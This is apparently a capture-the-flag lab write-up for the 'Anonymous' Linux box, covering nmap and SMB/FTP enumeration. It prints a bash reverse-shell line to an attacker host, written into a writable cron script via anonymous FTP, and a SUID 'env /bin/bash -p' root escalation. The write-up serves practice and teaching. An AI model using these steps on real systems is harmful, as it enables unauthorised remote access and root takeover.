

# Anonymous

This lab's focus is to train my Privilege Escalation skills in Linux. Let's start!

### Nmap Enumeration

```
nmap -A -p- <ip>
```

> PORT    STATE SERVICE     VERSION
> 21/tcp  open  ftp         vsftpd 2.0.8 or later
> | ftp-syst: 
> |   STAT: 
> | FTP server status:
> |      Connected to ::ffff:10.8.56.235
> |      Logged in as ftp
> |      TYPE: ASCII
> |      No session bandwidth limit
> |      Session timeout in seconds is 300
> |      Control connection is plain text
> |      Data connections will be plain text
> |      At session startup, client count was 1
> |      vsFTPd 3.0.3 - secure, fast, stable
> |_End of status
> | ftp-anon: Anonymous FTP login allowed (FTP code 230)
> |_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
> 22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
> |   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
> |_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
> 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
> Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
> Host script results:
> | smb2-time: 
> |   date: 2023-08-06T14:35:13
> |_  start_date: N/A
> | smb2-security-mode: 
> |   311: 
> |_    Message signing enabled but not required
> |_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
> | smb-security-mode: 
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb-os-discovery: 
> |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
> |   Computer name: anonymous
> |   NetBIOS computer name: ANONYMOUS\x00
> |   Domain name: \x00
> |   FQDN: anonymous
> |_  System time: 2023-08-06T14:35:13+00:00

From the output above we have several open ports:

- FTP 21
- SSH 22
- SMB 139 445

### SMB

First, we should try to enumerate the shares and check if we have read access to any of them:

```
smbmap -H <IP> 
```

We can login anonymously to a share called `pics`:

```
smbclient //<IP>/pics
```

There are two pics of rabbits inside but none of them are of any interest. Stegonography is not this challenge's focus.

### FTP

Moving on to FTP:

```
ftp <ip>
```

After an anonymous login, there is a folder called `scripts` which contains 3 files. From the content of them we can conclude that there is some sort of scheduling configured that runs one of the files inside `copy.sh`. Luckily, we have write privileges on such file. Hence we can upload a reverse shell and wait for a connection.

### Foothold

```
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" > copy.sh
#FTP
put copy.sh
or
append copy.sh copy.sh
```

Now just setup a listener wait a bit and enjoy your shell.



### Privilege Escalation

The PrivEsc vector is using SUID. Enumerate the binaries:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Go to GTFOBins and check the `env` binary:

```
env /bin/bash -p
```

Enjoy root!
